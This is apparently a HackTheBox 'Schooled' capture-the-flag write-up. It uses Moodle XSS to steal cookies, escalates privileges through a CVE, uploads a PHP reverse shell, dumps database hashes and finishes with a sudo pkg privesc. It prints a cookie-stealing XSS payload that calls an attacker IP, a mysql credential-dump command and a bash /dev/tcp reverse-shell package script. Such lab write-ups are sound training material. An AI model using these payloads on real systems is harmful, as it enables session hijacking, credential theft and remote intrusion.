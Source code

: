 ```yaml
---
layout: post
current: post
navigation: True
title: Schooled Writeup
date: 2021-07-01 20:00:00
cover: assets/images/schooled_logo.png
class: post-template
subclass: 'post'
author: r3Z3l
---
```



Medium Linux box from HackTheBox.

On rustscan, There are 3 ports open 22,80,33060
we find that it's running as schooled.htb
let's do directory fuzzing and subdomain fuzzing.
![Pasted image 20210802221702.png](assets/images/Pasted image 20210802221702.png)
we found moodle.schooled.htb

we find that it maths professors verifying profile and we have XSS vulnerability in moodle profile.
we can try for maths professors document cookie.

``<script>var x = document.cookie; var y = 'http://10.10.16.26/'; fetch(y+x)</script>``

and running python server.
![Pasted image 20210802195032.png](assets/images/Pasted image 20210802195032.png)
we get cookie of Manuel Philips (Professors).
so let's edit our cookie and we are a teacher.

---
On googling we found that there is exploit to become manager from teacher.
we got a [script](https://github.com/HoangKien1020/CVE-2020-14321). but it's not working there's a manual process of becoming manager.
Recording: [here](https://vimeo.com/441698193)
Something that i changed:
- I use Lianne Carter profile for making him as manager.
- In block_rce i uploaded a php reverse shell

After Getting shell first i tried to stablize the shell using python but it couldn't find.
So, I thought less try to search python in system and i found it /usr/local/bin/python3.7

for finding database:
```
find / -name "config.php" 2>/dev/null | grep "moodle/config.php"
```
in file we found credentials of mysql.
```
/usr/local/bin/mysql -u moodle --password=PlaybookMaster2020 -e "use moodle; select email,username,password from mdl_user; exit"
```
and we got hashes.
![Pasted image 20210802235058.png](assets/images/Pasted image 20210802235058.png)
after using john we got password for admin and jamie.

We can ssh as jamie and got #user-txt .

On running ``sudo -l``
![Pasted image 20210802235342.png](assets/images/Pasted image 20210802235342.png)
we can run pkg without password as root.
on [Gftobin for pkg](https://gtfobins.github.io/gtfobins/pkg/) we found exploit.
let's create that pkg in our system
```
TF=$(mktemp -d)
echo 'bash -i >& /dev/tcp/10.10.16.24/4242 0>&1' > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```
note: [fpm](https://fpm.readthedocs.io/en/latest/installing.html) should be installed in your system.
let's send to box.

```
sudo pkg install -y --no-repo-update ./x-1.0.txz
```
gives us reverse shell.
and we got #root-txt 

